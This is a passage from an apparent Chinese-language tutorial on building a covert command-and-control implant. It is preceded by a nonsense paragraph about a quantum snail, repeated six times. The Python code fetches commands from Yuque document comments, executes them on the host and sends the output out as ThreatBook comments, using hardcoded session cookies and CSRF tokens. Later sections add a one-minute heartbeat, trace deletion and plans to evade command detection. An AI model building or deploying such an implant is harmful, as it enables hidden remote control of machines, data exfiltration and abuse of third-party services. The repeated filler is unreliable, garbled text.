在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨
```

### t2·burp看token保存发包



```
POST /v5/node/user/article/saveComment HTTP/2
Host: x.threatbook.com
Cookie: csrfToken=x; rememberme=x;
Content-Length: 90
Sec-Ch-Ua-Platform: "Windows"
X-Csrf-Token: 8x
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
User-Id: undefined
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/json
Xx-Csrf: x
Accept: */*
Origin: https://x.threatbook.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://x.threatbook.com/v5/uCenter?type=mySpace
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"comment":"hi","isAnonymous":false,"targetId":0,"shortMeaasgeId":160183,"threatId":21417}
```

修改{"comment":"hi"重放测测效果

### t3·融入代码，加入发包的内容

```
import requests
import subprocess
from bs4 import BeautifulSoup
import json

def execute_cmd(command):
    try:
        result = subprocess.run(command.split(), 
                               stdout=subprocess.PIPE, 
                               stderr=subprocess.PIPE,
                               text=True,
                               timeout=10)
        return result.stdout.strip() or result.stderr.strip()
    except Exception as e:
        return str(e)

def send_comment(content):
    """发送结果到目标API接口"""
    url = "https://x.threatbook.com/v5/node/user/article/saveComment"
    
    headers = {
        "Host": "x.threatbook.com",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
        "Content-Type": "application/json",
        "X-Csrf-Token": "8MIFw0cXlv5pxAKG4TTw61mX",
        "Cookie": "csrfToken=8MIFw0cXlv5pxAKG4TTw61mX; rememberme=5db2692b56e6fbe58fb0b7292185f0825dd21a49|63cca7739be94c4391451bf2c26d0a4d|1748625759901|public|w; xx-csrf=5db2692b56e6fbe58fb0b7292185f0825dd21a49",
        "Xx-Csrf": "5db2692b56e6fbe58fb0b7292185f0825dd21a49"
    }
    
    payload = {
        "comment": content,
        "isAnonymous": False,
        "targetId": 0,
        "shortMeaasgeId": 160183,
        "threatId": 21417
    }
    
    try:
        response = requests.post(url, 
                                headers=headers,
                                data=json.dumps(payload),
                                timeout=15)
        return response.json()
    except Exception as e:
        print(f"API请求失败: {str(e)}")
        return None

def fetch_execute_report():
    API_URL = "https://www.yuque.com/api/comments/floor"
    params = {
        "commentable_type": "Doc",
        "commentable_id": "221772863",
        "include_section": "true"
    }
    
    try:
        # 获取待执行指令
        response = requests.get(API_URL, params=params, timeout=10)
        data = response.json()
        
        # 处理所有评论
        for comment in data.get('data', {}).get('comments', []):
            if html := comment.get('body'):
                if cmd_tag := BeautifulSoup(html, 'html.parser').select_one('span.ne-text'):
                    cmd = cmd_tag.get_text(strip=True)
                    if cmd:
                        # 执行系统命令
                        output = execute_cmd(cmd)
                        print(f"[CMD] {cmd}
[OUT] {output}")
                        
                        # 发送结果到API
                        api_response = send_comment(f"CMD: {cmd}
RESULT: {output}")
                        print(f"API响应: {api_response}
")
                        
    except Exception as e:
        print(f"Error: {str(e)}")

if __name__ == "__main__":
    fetch_execute_report()

```

效果如下





至此，我们的项目完整雏形已经完成，接下来的大叄板块将解决一些细节问题，完善这个项目

## 叄·完善

### 1.心跳检测

```
import requests
import subprocess
import schedule
import time
from bs4 import BeautifulSoup
import json

class HeartbeatMonitor:
    def __init__(self):
        self.yuque_params = {
            "commentable_type": "Doc",
            "commentable_id": "221772863",
            "include_section": "true"
        }
        self.api_headers = {
            "Host": "x.threatbook.com",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
            "Content-Type": "application/json",
            "X-Csrf-Token": "8MIFw0cXlv5pxAKG4TTw61mX",
            "Cookie": "csrfToken=8MIFw0cXlv5pxAKG4TTw61mX; rememberme=5db2692b56e6fbe58fb0b7292185f0825dd21a49|63cca7739be94c4391451bf2c26d0a4d|1748625759901|public|w; xx-csrf=5db2692b56e6fbe58fb0b7292185f0825dd21a49",
            "Xx-Csrf": "5db2692b56e6fbe58fb0b7292185f0825dd21a49"
        }
    
    def _execute(self, command):
        """命令执行封装"""
        try:
            result = subprocess.run(command.split(),
                                   stdout=subprocess.PIPE,
                                   stderr=subprocess.PIPE,
                                   text=True,
                                   timeout=8)
            return result.stdout.strip() or result.stderr.strip()
        except Exception as e:
            return f"执行失败: {str(e)}"

    def _report(self, content):
        """结果上报封装"""
        payload = {
            "comment": content,
            "isAnonymous": False,
            "targetId": 0,
            "shortMeaasgeId": 160183,
            "threatId": 21417
        }
        
        try:
            response = requests.post(
                "https://x.threatbook.com/v5/node/user/article/saveComment",
                headers=self.api_headers,
                data=json.dumps(payload),
                timeout=12
            )
            return response.status_code == 200
        except requests.exceptions.RequestException:
            return False

    def _fetch_commands(self):
        """获取待执行指令"""
        try:
            response = requests.get(
                "https://www.yuque.com/api/comments/floor",
                params=self.yuque_params,
                timeout=10
            )
            return response.json().get('data', {}).get('comments', [])
        except Exception:
            return []

    def _process_cycle(self):
        """单次检测周期"""
        print(f"
[{time.ctime()}] 开始心跳检测")
        
        for comment in self._fetch_commands():
            if html := comment.get('body'):
                if cmd_tag := BeautifulSoup(html, 'html.parser').select_one('span.ne-text'):
                    cmd = cmd_tag.get_text(strip=True)
                    if cmd:
                        output = self._execute(cmd)
                        report_content = f"CMD: {cmd}
RESULT: {output}"
                        if self._report(report_content):
                            print(f"指令 {cmd} 上报成功")
                        else:
                            print(f"指令 {cmd} 上报失败")

    def start(self):
        """启动定时任务"""
        schedule.every(1).minutes.do(self._process_cycle)
        
        print("心跳监控已启动，每分钟检测一次...")
        try:
            while True:
                schedule.run_pending()
                time.sleep(1)
        except KeyboardInterrupt:
            print("监控服务已停止")

if __name__ == "__main__":
    monitor = HeartbeatMonitor()
    monitor.start()

```



### 2.定时删除，不留痕迹（微步）

先拦删除包，这个操作比较简单，心跳60发一次包即可



然后加入代码，60秒发一次。

问题来了，评论ID是变的，我们抓到规律，它是一种计次的ID，那么我们可以第一次发送n,n+1,n+2，第二次发送n+1,n+2,n+3.

作者在这里并没有实验成功，有能力的大佬做出来更好方案的可以联系我，谢谢！Thanks♪(･ω･)ﾉ

### 3.传参加密

这个不赘余，不是本文核心

### 4.执行指令行为对抗

#### 在语雀评论区发指令时直接发经过指令绕过的

#### 在代码执行指令的时候用syscal什么玩意的给他过了

### 5.封包，静默，不赘余
